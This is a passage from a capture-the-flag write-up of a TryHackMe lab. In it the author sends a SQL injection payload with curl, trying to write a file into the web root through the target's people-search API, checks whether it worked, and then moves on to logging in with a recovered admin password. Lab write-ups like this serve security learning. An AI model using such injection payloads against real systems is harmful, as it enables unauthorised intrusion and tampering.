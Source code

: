 We can!! Then how about **writing to a file**?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT NULL,NULL,'test' INTO OUTFILE '/var/www/html/test.txt'-- -"
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl http://$RHOSTS/test.txt  

		
		<!DOCTYPE html>
[...]
```

I don't think so... Hmm... Let's go back.

Since we found user `M!n0taur`'s password, and he has the admin permission. Why not try to login as that user?

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Minotaur's-Labyrinth/images/a4.png)
